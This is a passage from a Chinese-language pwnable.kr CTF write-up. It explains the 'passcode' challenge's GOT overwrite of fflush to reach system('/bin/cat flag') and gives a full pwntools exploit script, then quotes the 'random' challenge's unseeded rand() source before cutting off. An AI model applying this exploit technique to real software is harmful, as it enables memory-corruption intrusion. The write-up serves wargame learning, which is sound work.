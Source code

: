 把覆盖passcode1为该地址

并在调用到scanf(“%d”, passcode1)

时输入程序代码中调用system("/bin/cat flag");处的地址(可在ida中找到)即可。

然后程序在执行fflush函数时就会执行system("/bin/cat flag");

Exp:

```
#coding=utf-8
from pwn import *

elf = ELF("./passcode")

fflush_got = elf.got["fflush"]
#print(hex(fflush_got))
sysh_addr=0x080485E3

shell=ssh(host='pwnable.kr',user='passcode',password='guest',port=2222)
#shell.download_file("./passcode.c")
#shell.download_file("./passcode")


payload="a"*(100-4)+p32(fflush_got)
sh=shell.run('./passcode')
sh.sendlineafter("enter you name :",payload)
payload=str(sysh_addr)
sh.sendlineafter("enter passcode1 :",payload)
sh.interactive()
```

## 0x06 random

关键源码

```cpp
	unsigned int random;
	random = rand();	// random value!

	unsigned int key=0;
	scanf("%d", &key);

	if( (key ^ random) == 0xdeadbeef ){
		printf("Good!\n");
		system("/bin/cat flag");
		return 0;
	}
```

我们知道rand()是一个根据srand(seed)生成的伪随机数列，然后这里的seed又是固定的（未调用srand()）

就可以写Exp了

Exp:
